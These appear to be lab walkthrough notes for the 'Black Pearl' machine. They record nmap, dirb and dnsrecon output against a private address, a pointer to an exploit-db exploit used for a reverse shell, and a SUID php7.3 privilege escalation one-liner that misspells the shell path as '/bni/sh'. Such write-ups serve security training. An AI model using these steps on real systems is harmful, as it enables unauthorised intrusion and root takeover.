 ```bash
nmap -T4 -p- -Pn -A 192.168.57.10
```
- results
```
Nmap scan report for 192.168.57.10
Host is up (0.0040s latency).
Not shown: 9997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 66:38:14:50:ae:7d:ab:39:72:bf:41:9c:39:25:1a:0f (RSA)
|   256 a6:2e:77:71:c6:49:6f:d5:73:e9:22:7d:8b:1c:a9:c6 (ECDSA)
|_  256 89:0b:73:c1:53:c8:e1:88:5e:c3:16:de:d1:e5:26:0d (ED25519)
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u5-Debian
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome to nginx!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
- dns on 53
- default nginx on 80
	-  Webmaster: alek@blackpearl.tcm in src

dirbusting
```bash
dirb http://192.168.57.10 -r                                                                                                                                                                                                       
URL_BASE: http://192.168.57.10/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------
GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.57.10/ ----
+ http://192.168.57.10/secret (CODE:200|SIZE:209)                                                                                                 
```
- secret file
```txt
OMG you got r00t !

Just kidding... search somewhere else. Directory busting won't give anything.
<This message is here so that you don't waste more time directory busting this particular website.>

- Alek 
```

- dns
```bash

dnsrecon -r 127.0.0.0/24 -n 192.168.57.10 -d blank 
-d needed but content unimportant

[*] Performing Reverse Lookup from 127.0.0.0 to 127.0.0.255
[+] 	 PTR blackpearl.tcm 127.0.0.1
[+] 1 Records Found
```
- add to /etc/hosts
- url gives phpinfo

- dirbusting / fuzzing the url
	- /navigate 
	- login page
	- search exploits
		- https://www.exploit-db.com/exploits/45561`
- gets rev shell

- use linpeas for privesc
	- SUID : 's' in owners 
	- SGID : 's' in group 
	- Sticky Bit : 's' in others
- SUID allows running as owner privs
	- https://gtfobins.github.io/#+suid
	- php7.3
	```bash
	/usr/bin/php7.3 -r "pcntl_exec('/bni/sh', ['-p']);"
	id
	# uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
	# see euid=0(root)
	```
- root access